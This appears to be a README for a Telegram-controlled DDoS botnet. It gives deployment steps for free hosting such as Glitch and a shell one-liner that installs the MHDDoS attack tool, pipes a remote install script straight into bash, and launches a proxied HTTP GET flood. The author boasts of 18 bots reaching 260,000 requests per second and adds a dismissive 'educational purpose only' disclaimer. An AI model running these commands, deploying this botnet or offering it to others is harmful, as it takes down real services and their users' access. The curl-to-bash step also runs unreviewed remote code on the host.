 # DDOS Botnet Sample

DDOS BotNet for telegram, just make differents version of this bot with differents telegram token (in .env file pls).

And host it ! (I use [GLITCH](https://glitch.com/dashboard) for simple and free host)
<br><br>
## How use it ?

Just clone the repo on your hosting server, make a .env file with a TELEGRAM_TOKEN variable with your telegram token key, 
and make a NUM variable with the name of the bot.
<br><br>
In the shell of your hosting server make this config command : 
<br>
` /usr/bin/python3 -m pip install --upgrade pip && pip3 uninstall telegram && pip3 uninstall telegram-bot python-telegram-bot && pip3 install -r requirements.txt &&git clone https://github.com/MatrixTM/MHDDoS.git && cd MHDDoS && pip3 install -r requirements.txt && curl -s https://raw.githubusercontent.com/SlavaUkraineSince1991/DDoS-for-all/main/scripts/python_git_MHDDoS_proxy_install.sh | bash && python3 ~/MHDDoS/start.py GET example.com 1 100 mhddos_proxy/list 100 5 `
<br>
Now hit the URL of the bot for start (only if your hosting sleep your project in free mode like Glitch), you can also make a bot for start all other bot. 


The installation tutorial is not finished, if you have any problems I can help you.

<br><br>
[+] NEW ! You can now upgrade your requests/s using my [DDOS BOOSTER !](https://github.com/Mehliug-git/DDOS_Booster) It's just a DDOS bot without Telegram, just get a URL and start DDOS !     
[+] NEW ! : If you just want to test your infrastrucutre open me an Issue and have done this together !!

**In my Botnet I have actually 18 bots, I can go up to 260 000 requests /s**
<br><br>

### Just for educational purpose only, Do, what you want I don’t give a fuck, but it’s not my fault you’re in trouble.
